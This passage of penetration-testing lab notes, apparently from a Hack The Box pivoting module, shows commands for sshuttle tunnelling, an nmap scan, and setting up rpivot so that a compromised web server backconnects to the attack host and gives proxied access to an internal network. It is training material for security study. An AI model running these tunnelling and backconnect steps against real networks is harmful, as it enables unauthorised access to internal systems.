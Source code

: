 With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

```shell
c4ndy@htb[/htb]$ nmap -v -sV -p3389 172.16.5.19 -A -Pn
```

---

# web Server Pivoting with Rpivot

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

##### Download rpivot

```shell
c4ndy@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```

###### install python2.7

```shell
c4ndy@htb[/htb]$ sudo apt-get install python2.7
```

##### Running server.py from the Attack Host

```shell
c4ndy@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

#####  Transfering rpivot to the Target

```shell
c4ndy@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

##### Running client.py from Pivot Target

```shell
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
Backconnecting to server 10.10.14.18 port 9999
```

##### Confirming Connection is Established

```shell
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
